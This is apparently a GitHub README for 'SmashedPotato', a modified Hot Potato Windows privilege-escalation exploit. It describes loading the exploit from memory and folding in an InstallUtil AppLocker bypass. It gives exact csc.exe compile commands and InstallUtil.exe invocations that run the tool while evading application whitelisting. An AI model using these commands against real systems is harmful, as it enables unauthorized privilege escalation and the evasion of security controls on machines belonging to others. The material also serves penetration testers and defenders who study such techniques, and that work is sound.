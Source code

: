 # SmashedPotato
By Cn33liz 2016

A modification of @breenmachine original Hot Potato Priv Esc Exploit

### Mofifications:

* Merged all .NET assemblies into a single assembly and Compressed this into a Byte[] array.
* Runs Potato assembly from Memory.
* Included the InstallUtil AppLocker Bypass method (Credits @SubTee).
* Made some Automation.

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe  /out:"C:\Utils\SmashedPotatoX86.exe" /platform:x86 "C:\Utils\SmashedPotato.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe  /out:"C:\Utils\SmashedPotatoX64.exe" /platform:x64 "C:\Utils\SmashedPotato.cs"
```

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SmashedPotatoX64.exe
```

### Shout-outs:

Go out to @breenmachine/@foxglovesec for their magnificent Potato code and @SubTee for his App Whitelisting techniques. 
